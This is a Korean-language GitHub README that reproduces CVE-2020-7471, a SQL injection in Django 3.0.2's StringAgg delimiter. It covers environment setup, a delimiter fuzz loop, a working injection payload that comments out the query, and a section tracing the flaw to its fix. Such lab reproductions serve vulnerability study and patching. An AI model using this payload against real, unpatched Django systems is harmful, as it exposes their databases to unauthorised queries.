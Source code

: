 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
### 내부 파이썬 환경에서만 테스트 
+ **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + **정상적인 SQL 구문 출력**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + **SQL Injection 구문**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ **python CVE-2020-7471.py**

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 대응방안

+ **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

  ![2](https://user-images.githubusercontent.com/89399749/130898422-3cf70a46-237a-497c-9546-792e2021fd2a.png)


+ **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)


+ **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)


+ **delimiter_expr = Value(str(delimiter))**
  + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 4. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html
